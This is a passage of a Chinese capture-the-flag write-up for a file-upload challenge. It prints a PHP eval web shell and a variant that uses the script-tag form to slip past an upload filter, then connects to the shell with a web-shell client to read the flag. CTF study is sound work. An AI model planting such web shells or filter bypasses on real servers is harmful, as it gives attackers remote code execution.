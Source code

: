 ### [](#9-upload "9. upload")9\. upload

> 想怎么传就怎么传，就是这么任性  
> hint:肯定是文件上传了

![](25.png)  
相信大家看到这个想法都跟我一样，传一个一句话上去  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php </span><br><span class="line"> @eval($_POST["code"]);</span><br><span class="line"> ?&gt;</span><br></pre></td></tr></tbody></table>

  
结果显示上传成功  
查看页面源代码可以看到上传的路径`/u/test.php`  
我们查看文件，发现把“\<”和”php ”给过滤掉了  
那我们就很自然的想到PHP的长标签了  
重新修改代码  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;script language="PHP"&gt;</span><br><span class="line"> @eval($_POST["code"]);</span><br><span class="line">&lt;/script&gt;</span><br></pre></td></tr></tbody></table>

发现上传成功，使用菜刀连接，发现flag.php  
![](26.png)  
打开，得到flag  
![](27.png)

### [](#10-Code "10. Code")10\. Code
